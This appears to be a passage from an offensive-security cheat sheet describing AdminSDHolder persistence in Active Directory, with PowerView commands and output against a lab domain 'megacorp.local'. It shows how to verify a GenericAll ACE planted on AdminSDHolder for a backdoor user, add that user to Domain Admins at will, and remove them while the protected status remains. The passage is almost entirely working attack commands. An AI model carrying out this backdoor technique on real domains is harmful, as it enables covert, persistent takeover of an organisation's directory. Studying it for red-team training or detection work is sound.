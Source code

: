 Check that granting `AdminSDHolder` permissions was successful (may take 60+ minutes for the security ACLs to get updated for that user):

```
PV3 > Get-DomainUser snovvcrash | select objectsid
S-1-5-21-2284550090-1208917427-1204316795-9824

PV3 > Get-DomainObjectAcl -Identity "CN=AdminSDHolder,CN=System,DC=megacorp,DC=local" -Domain megacorp.local -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "S-1-5-21-2284550090-1208917427-1204316795-9824"}

AceType               : AccessAllowed
ObjectDN              : CN=AdminSDHolder,CN=System,DC=megacorp,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             :
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-2284550090-1208917427-1204316795-9824
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
```

Now you can add yourself (the "snovvcrash" user) to the Domain Admins group any time and do stuff (actually adding the user to Domain Admins every time is not necessary, as the `AdminCount` attribute will stay `1` anyways after adding the backdoor user to a protected group for the first time):

```
PV3 > Add-DomainGroupMember -Identity "Domain Admins" -Members snovvcrash
PV3 > Get-DomainObjectAcl -Identity "Domain Admins" -Domain megacorp.local -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "S-1-5-21-2284550090-1208917427-1204316795-9824"}

AceType               : AccessAllowed
ObjectDN              : CN=Domain Admins,CN=Users,DC=megacorp,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-2284550090-1208917427-1204316795-512
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-2284550090-1208917427-1204316795-9824
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed

PV3 > Remove-DomainGroupMember -Identity "Domain Admins" -Members snovvcrash
PV3 > Get-DomainUser snovvcrash | select admincount

admincount
----------
         1
```
